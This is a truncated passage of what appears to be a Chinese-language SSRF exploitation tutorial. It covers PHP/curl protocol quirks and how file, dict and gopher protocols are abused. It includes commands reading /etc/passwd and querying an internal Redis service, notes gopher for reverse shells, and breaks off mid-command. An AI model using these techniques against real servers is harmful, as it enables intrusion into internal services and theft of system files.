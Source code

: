 curl_exec函数用于执行指定的cURL会话

**注意**

```
1.一般情况下PHP不会开启fopen的gopher wrapper 

2.file_get_contents的gopher协议不能URL编码 

3.file_get_contents关于Gopher的302跳转会出现bug，导致利用失败 

4.curl/libcurl 7.43 上gopher协议存在bug(%00截断) 经测试7.49 可用 

5.curl_exec() //默认不跟踪跳转， 

6.file_get_contents() // file_get_contents支持php://input协议
```

### 协议

（1）`file`： 在有回显的情况下，利用 file 协议可以读取任意内容

（2）`dict`：泄露安装软件版本信息，查看端口，操作内网redis服务等

（3）`gopher`：gopher支持发出GET、POST请求：可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell

（4）`http/s`：探测内网主机存活

## SSRF漏洞利用

### 本地利用

以curl举例，查看 curl 支持的协议列表 curl -V

（1）使用file协议 file protocol (任意文件读取)

```
curl -vvv 'file:///etc/passwd'
```

（2）使用dict协议 dict protocol (获取Redis配置信息)

```
curl -vvv 'dict://127.0.0.1:6379/info'
```

（3）使用gopher协议(俗称万能协议) gopher protocol (一键反弹Bash)

**远程利用方式**

1.利用`file`协议

任意文件读取

```
curl -v 'http://x.x.x.x:xxxx/ssrf.php?url=fil
```
